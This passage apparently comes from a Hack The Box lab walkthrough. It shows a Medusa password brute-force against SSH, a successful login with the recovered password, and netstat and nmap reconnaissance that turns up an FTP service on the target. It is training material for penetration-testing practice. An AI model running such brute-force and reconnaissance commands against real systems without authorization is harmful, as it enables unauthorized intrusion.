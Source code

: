 ```shell-session
smoothment@htb[/htb]$ medusa -h IP -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
...
ACCOUNT FOUND: [ssh] Host: IP User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```

Upon execution, Medusa will display its progress as it cycles through the password combinations. The output will indicate a successful login, revealing the correct password.

### Gaining Access

With the password in hand, establish an SSH connection using the following command and enter the found password when prompted:

```shell-session
smoothment@htb[/htb]$ ssh sshuser@<IP> -p PORT
```

This command will initiate an interactive SSH session, granting you access to the remote system's command line.

#### Expanding the Attack Surface

Once inside the system, the next step is identifying other potential attack surfaces. Using `netstat` (within the SSH session) to list open ports and listening services, you discover a service running on port 21.

&#x20;

```shell-session
smoothment@htb[/htb]$ netstat -tulpn | grep LISTEN

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
```

Further reconnaissance with `nmap` (within the SSH session) confirms this finding as an ftp server.

```shell-session
smoothment@htb[/htb]$ nmap localhost

Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-05 13:19 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000078s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```
